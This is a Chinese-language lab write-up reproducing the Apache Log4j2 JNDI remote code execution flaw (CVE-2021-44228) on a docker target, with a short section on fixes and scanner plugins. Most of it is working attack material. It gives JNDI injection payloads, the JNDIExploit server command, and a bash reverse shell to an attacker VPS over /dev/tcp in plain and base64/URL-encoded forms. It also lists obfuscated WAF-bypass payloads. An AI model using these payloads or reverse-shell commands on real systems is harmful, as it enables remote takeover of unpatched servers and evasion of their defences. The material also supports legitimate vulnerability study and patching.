

# Apache_Log4j2_RCE漏洞复现|反弹shell

## 声明

文章所提供的内容和工具仅供于个人学习和研究，严禁传播者利用本文章的相关内容进行非法测试。由于传播、利用此文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。未经作者允许，任何人不得随意修改或增减文章的内容。

## 漏洞描述

2021年11月24日，阿里云安全团队向Apache官方报告了Apache Log4j2远程代码执行漏洞**。**12月9号进行了漏洞预警，然后整个安全圈就过年了。

Apache Log4j2 是一款开源的 Java 日志记录工具，大量的业务框架都使用了该组件。如：Apache Struts2、Apache Solr、Apache Druid、Apache  Flink等。此次漏洞是用于 Log4j2 提供的 lookup 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。但在实现的过程中，并未对输入进行严格的判断，从而造成漏洞的发生。

## 漏洞编号

CNVD-2021-95914

CVE-2021-44228

## 漏洞等级

严重

## 影响范围

Apache Log4j 2.x < 2.15.0-rc2

## 安全版本

Apache Log4j  2.15.0-rc2

## 漏洞复现

### 测试环境：

靶机服务器：VPS服务器docker容器（http://47.xxx.xxx.xxx:8080）

攻击机/反弹shell服务器：VPS服务器 (47.xxx.xxx.xxx)

### 1.环境搭建

用的是github上的一个docker环境:[log4j_vuln](https://github.com/fengxuangit/log4j_vuln)

关于docker安装使用请参考： [Ubuntu下安装docker和docker-compose](https://blog.csdn.net/weixin_42170236/article/details/109316078)

#### 1.1 拉取漏洞环境镜像
```
docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
```
#### 1.2 运行漏洞环境容器
```
docker run -it -d -p 8080:8080 --name log4j_vuln_container registry.cnhangzhou.aliyuncs.com/fengxuan/log4j_vuln
```
#### 1.3 进入容器中
```
docker exec -it log4j_vuln_container /bin/bash
```
#### 1.4 启动漏洞环境
```
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh
```
打开http://47.xxx.xxx.xxx:8080/webstudy/hello-fengxuan
出现以下页面，说明搭建成功。


### 2.dnslog执行代码

构造payload，POST提交，参数如下
```
c=${jndi:ldap://log4j2.xxxxxx.dnslog.cn}
```


查看dnslog平台，已经成功记录请求。


### 3.执行命令

在本地先要生成JNDI链接并启动后端相关服务，VPS注意防火墙开启相关端口，用的是[JNDIExploit-1.2-SNAPSHOT.jar](https://download.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip)，同样本地先启动服务,

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 47.xxx.xxx.xxx -l 9999 -p 80 
```


构造以下payload，发送请求，成功执行命令。

```
cmd: whoami

c=${jndi:ldap://47.xxx.xxx.xxx:9999/TomcatBypass/TomcatEcho}
```


### 4.反弹shell

#### 4.1直接反弹shell

构造以下payload，反弹shell

```
cmd: bash -i >& /dev/tcp/47.xxx.xxx.xxx/5555 0>&1

c=${jndi:ldap://47.xxx.xxx.xxx:9999/TomcatBypass/TomcatEcho}
```


VPS服务器监听5555端口，成功反弹shell。


#### 4.2 base64编码反弹shell

由于环境等问题，有时直接反弹shell可能会失败，所以需要进行base64编码+url编码的方式进行反弹shell。

首先对反弹shell的payload进行[base64](https://base64.us/)编码。

```
bash -i >& /dev/tcp/47.xxx.xxx.xxx/5555 0>&1
```


再对base64编码后的payload进行[url](http://tool.chinaz.com/tools/urlencode.aspx)编码。


然后对整个payload进行[url](http://tool.chinaz.com/tools/urlencode.aspx)编码。

```
c=${jndi:ldap://47.xxx.xxx.xxx:9999/TomcatBypass/Command/Base64/YmFzaCAtaSA%2BJiAvZGV2L3RjcC80Ny45Ny41LjxxxxxxxxxU1IDA%2BJjE%3D}
```


发送编码后的payload。

```
cmd: bash -i >& /dev/tcp/47.xxx.xxx.xxx/5555 0>&1

c=%24%7Bjndi%3Aldap%3A%2F%2F47.xxx.xxx.xxx%3A9999%2FTomcatBypass%2FCommand%2FBase64%2FYmFzaCAtaSA%252BJiAvZGV2L3RjcC80Ny45xxxxxxxx81NTU1IDA%252BJjE%253D%7D
```


服务器收到执行payload记录。



反弹shell成功。


## 其他测试靶场

[掌控安全](http://d63bb2586.lab.aqlab.cn/)

[首页 - vulfocus](http://vulfocus.fofa.so/#/dashboard)

[log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)


## Bypass WAF Payloads

参考链接：

[Log4j Bypass WAF Payloads](https://mp.weixin.qq.com/s/H1gH5ZtIAVpLPgmmUfJnaA)

```
${jndi:ldap://127.0.0.1:1389/ badClassName} 

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk
```
## 修复方案

截止到目前，网上的修复方法大致是这些：

补丁链接:
[log4j-2.15.0-rc2](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)

1）添加jvm启动参数-Dlog4j2.formatMsgNoLookups=true；

2）在应用classpath下添加log4j2.component.properties配置文件，文件内容为log4j2.formatMsgNoLookups=true；

3）JDK使用11.0.1、8u191、7u201、6u211及以上的高版本；

## BurpSuite主动/被动扫描插件

[burpsuite主动扫描插件之ActiveScan++](https://www.ddosi.org/activescan/)

[Log4j2 RCE Passive Scanner plugin for BurpSuite](https://github.com/whwlsfb/Log4j2Scan)

[用于帮助企业内部快速扫描log4j2的jndi漏洞的burp插件](https://github.com/pmiaowu/log4j2Scan)

[f0ng/log4j2burpscanner](https://github.com/f0ng/log4j2burpscanner)

## 参考链接

[基于免费靶场Apache Log4j漏洞还原|反弹shell](https://mp.weixin.qq.com/s/S-dQibGFgJZ_sm3ly3iNag)

[Apache Log4j2远程代码执行漏洞本地复现](https://mp.weixin.qq.com/s/FLgOwQS3pPA4JWEtS6yA0w)

[log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)


